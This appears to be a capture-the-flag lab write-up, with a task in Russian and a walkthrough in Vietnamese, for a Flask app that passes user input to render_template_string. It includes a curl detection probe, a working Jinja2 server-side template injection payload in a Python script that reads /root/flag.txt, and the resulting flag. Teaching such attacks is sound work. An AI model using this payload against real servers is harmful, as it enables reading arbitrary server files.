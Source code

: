 # Чтобы решить задание, нужно извлечь содержимое /root/flag.txt
Код сервера:
```python
from flask import Flask, request, render_template, render_template_string

app = Flask(__name__)

@app.route('/')
def index():
    return render_template("index.html")

@app.route('/feedback', methods=['GET'])
def feedback():
    content = request.args.get("content")
    return render_template_string(content)
```
Про SSTI можно почитать во многих статьях в интернете. Например, https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/

Подсказка: обратите внимание на ссылку, которая прикреплена выше. Вам нужно использовать модуль os, как один из вариантов, чтобы прочитать содержимое файла. Также вспомните как вывести содержимое файла в Linux

---
Để giải quyết vấn đề, bạn cần trích xuất nội dung của /root/flag.txt
---
# Cách thực hiện

Bài tập này liên quan đến SSTI (Server-Side Template Injection) trong Flask và Jinja2. Mục tiêu là khai thác lỗ hổng này để đọc nội dung file /root/flag.txt.

Phân tích mã nguồn:
Ứng dụng Flask có một endpoint /feedback chấp nhận tham số content thông qua phương thức GET.

Tham số content được chuyển thẳng vào hàm render_template_string(content), có nghĩa là nó sẽ render nội dung đó như một template của Jinja2.

Vì Jinja2 là một công cụ template mạnh mẽ của Python, nó cho phép chạy mã Python bên trong template nếu bạn khai thác được đúng cú pháp.

Cách khai thác lỗ hổng SSTI:

Bằng cách sử dụng cú pháp của Jinja2, bạn có thể thực thi mã Python trực tiếp trong template. Điều này có thể cho phép bạn chạy các lệnh hệ thống, như đọc file trong Linux.

Các bước thực hiện:

Thử kiểm tra lỗ hổng SSTI: Bạn có thể bắt đầu bằng cách thử một số payload đơn giản để xem liệu ứng dụng có dễ bị tấn công SSTI không. Một payload đơn giản là hiển thị kết quả của phép tính:

```{{ 7 * 7 }}```

Gửi yêu cầu:

```bash
curl "https://bef1bbeb-2d7b-4a70-8554-7dad938bef29-app.web.lms.itmo.xyz/feedback?content=\{\{7*7\}\}"
```

Kết quả trả về là 49, có nghĩa là ứng dụng bị lỗ hổng SSTI.

Tiếp theo: Đọc nội dung file: Sau khi xác nhận lỗ hổng, chúng ta có thể khai thác lỗ hổng để đọc nội dung file trên server, cụ thể là file /root/flag.txt. 

*Hãy thay ur bằng url của bạn*

```python
import requests

# URL của ứng dụng Flask
url = "https://bef1bbeb-2d7b-4a70-8554-7dad938bef29-app.web.lms.itmo.xyz/feedback"

# Tham số chứa payload
params = {
    "content": "{{ request.application.__globals__.__builtins__.open('/root/flag.txt').read() }}"
}

# Gửi yêu cầu GET với tham số
response = requests.get(url, params=params)

# In ra phản hồi từ server (nếu có)
print(response.text)
```

**Kết quả**

```bash
$ python3 SSTI_simple.py 
82b524e8e3ce84757eb329edf05b3a48e0de4619df6e53a795789c4a7617dcf60d05680e87079cf854df87b114da1010
```

Tổng quan quá trình hoạt động:

Gửi yêu cầu: Đoạn mã gửi yêu cầu GET tới server Flask với tham số content chứa payload khai thác lỗ hổng SSTI.

Thực thi trên server: Nếu server bị lỗ hổng, payload được chèn vào template và được thực thi trên server. Biểu thức Jinja2 yêu cầu server đọc file /root/flag.txt.

Nhận phản hồi: Server trả về nội dung của file đó dưới dạng phản hồi, và đoạn mã Python in ra nội dung này.

Giải thích 1 chút về 

Biến params là một từ điển chứa các tham số cần gửi trong URL của yêu cầu GET. Trong trường hợp này, tham số content chứa một biểu thức Jinja2 để khai thác lỗ hổng SSTI.

```Payload: "{{ request.application.__globals__.__builtins__.open('/root/flag.txt').read() }}"``` là một đoạn mã template injection (SSTI) được gửi đến server. Nó sẽ yêu cầu server mở file /root/flag.txt và đọc nội dung của nó, sau đó trả về kết quả như là một phần của phản hồi.


